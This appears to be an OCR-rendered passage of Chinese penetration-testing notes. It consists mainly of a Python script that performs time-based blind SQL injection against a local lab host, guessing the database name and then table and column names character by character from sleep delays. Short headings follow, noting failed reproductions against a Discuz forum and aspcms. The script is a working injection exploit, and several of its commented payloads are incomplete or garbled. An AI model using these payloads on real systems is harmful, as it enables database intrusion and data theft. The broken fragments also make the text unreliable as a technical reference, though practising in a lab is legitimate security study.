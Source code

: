 ```bash
    #url="http://192.168.3.129/pentest/test/time/?type=2 and if(length(select group_concat() from )=%d,sleep(5),1)"%(i)
    response=requests.get(url)
    if time.time()-startTime >=5:
        length=i
        print("the database length is"+str(i))

# 猜测
print("start brute sql")
for j in range(1,length+1):
    for k in payloads:
        startTime1=time.time()
        url1="http://192.168.3.129/pentest/test/time/?type=2 and if(substr(database(),'%d',1)='%s',sleep(5),1)"%(j,k)
        #url1="http://192.168.3.129/pentest/test/time/?type=2 and if(substr((select table_name from information_schema.tables where table_schema=database() limit 1),'%d',1)='%s',sleep(5),1)"%(j,k)
        #url1="http://192.168.3.129/pentest/test/time/?type=2 and if(substr(select group_concat(column_name) from information_schema.columns where table_name= ,'%d',1)='%s',sleep(5),1)"%(j,k)
        #url1="http://192.168.3.129/pentest/test/time/?type=2 and if(substr(select group_concat() from ,'%d',1)='%s',sleep(5),1)"%(j,k)
        response1=requests.get(url1)
        if time.time()-startTime1 >=5:
            result+=k
            print(result)
            break

print("result is:"+result)


```
## DZ论坛
复现失败
## aspcms
复现失败
## phpmyadmin